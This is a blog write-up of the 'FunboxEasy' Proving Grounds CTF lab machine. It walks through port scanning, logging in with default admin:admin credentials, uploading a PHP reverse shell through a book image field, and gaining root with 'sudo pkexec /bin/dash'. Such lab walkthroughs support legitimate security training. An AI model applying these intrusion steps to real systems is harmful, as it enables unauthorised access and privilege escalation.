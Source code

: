 ```yaml
---
title: "Proving grounds Play: FunboxEasy"
layout: post
date: 2023-09-16 01:00
categories: writeup
---
```


Proving grounds Play - FunboxEasy CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2d8516ec584051908ebc8582713132f (RSA)
|   256 b0de9703a72ff4e2ab4a9cd9439b8a48 (ECDSA)
|_  256 9d0f9a26384f0180a7a6809dd1d4cfec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

## Web PORT: 80

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/web.png)

http://192.168.169.111/store/

## Admin Login

http://192.168.169.111/store/admin.php

Use credentials `admin:admin` for the admin login.

## Upload Reverse Shell

Click Add new book and upload php reverse shell on the image section and post the book.

Direct to the books page to trigger reverse shell.

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/shell.png)

A file named `password.txt` located in the user `tony` folder has password of SSH login.

## Privilege Esclation

Login to user tony via SSH using the credentials and run `sudo -l` to check the permissions.

```sh
tony@funbox3:~$ sudo -l
User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

**GTFO Bins Exploit**

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/gtfo.png)

Alternatively the root privilege can be elevated via the `pkexec` binary as well.

```sh
sudo pkexec /bin/dash
```

**Root Obtained**

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).